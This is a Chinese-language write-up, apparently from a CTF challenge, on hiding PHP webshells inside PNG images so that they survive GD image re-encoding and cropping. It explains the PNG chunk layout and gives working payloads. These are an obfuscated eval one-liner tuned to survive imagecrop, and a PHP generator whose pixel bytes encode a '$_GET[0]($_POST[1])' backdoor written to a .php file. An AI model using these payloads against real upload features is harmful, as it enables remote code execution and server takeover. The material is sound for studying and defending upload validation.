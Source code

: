 	由于数据块结构的定义，IEND数据块的长度总是0（00 00 00 00，除非人为加入信息），数据标识总是IEND（49 45 4E 44），因此，CRC码也总是AE 42 60 82



#### 写🐎思路

了解了png结构之后，我们大概有两种思路构造webshell

1. 向**PLTE**插入php代码

   https://github.com/hxer/imagecreatefrom-/tree/master/png/analysis

   > 分析底层源码可知， png signature 是不可能插入 php 代码的； IHDR 存储的是 png 的图片信息，有固定的长度和格式，程序会提取图片信息数据进行验证，很难插入 php 代码；而 PLTE 主要进行了 CRC 校验和颜色数合法性校验等简单的校验，那么很可能在 data 域插入 php 代码。
   >
   > 从对 PLTE chunk 验证的分析可知， 当原始图片格式给索引图片时，PLTE 数据块在满足 png 格式规范的情况下，程序还会进行 CRC 校验和长度合法性验证。因此，要将 PHP 代码写入 PLTE 数据块，不仅要修改 data 域的内容为php代码，然后修改 CRC 为正确的 CRC 校验值，当要填充的代码过长时，可以改变 length 域的数值，满足 length 为3的倍数， 且颜色数不超过色深中规定的颜色数。例如: IHDR 数据块中 Bit depth 为 08, 则最大的颜色数为 2^8=256, 那么 PLTE 数据块 data 的长度不超过 3*256=0x300。 这个长度对写入 php 一句话木马或者创建后门文件足够了。

   通过文章的exp构造的webshell，能过只有`imagecreatefrompng`和`imagepng`的。

   但是经过题目`imagecrop`这种裁剪，会被有规律的吞掉

   ![image-20210522224138197](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210522224140.png)

   解决方案是可以硬调：

   ```
   */$<?=_GET/**/[fghijk;/*(/*rstuvw0])*/e$%^val/*+//
   //就问这是人能调出来的么？<?=eval($_GET[0]);
   ```

   

2. 向**IDAT**插入php代码

   原理剖析：https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

   exp：https://github.com/huntergregal/PNG-IDAT-Payload-Generator/

   当然也可以使用php版本的exp：

   ```php
   <?php
   $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
              0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
              0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
              0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
              0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
              0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
              0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
              0x66, 0x44, 0x50, 0x33);
   
   $img = imagecreatetruecolor(32, 32);
   
   for ($y = 0; $y < sizeof($p); $y += 3) {
      $r = $p[$y];
      $g = $p[$y+1];
      $b = $p[$y+2];
      $color = imagecolorallocate($img, $r, $g, $b);
      imagesetpixel($img, round($y / 3), 0, $color);
   }
   
   imagepng($img,'wh1sper.php');//要修改的图片的路径
   /* 木马内容
   <?$_GET[0]($_POST[1]);?>
    */
   ```
   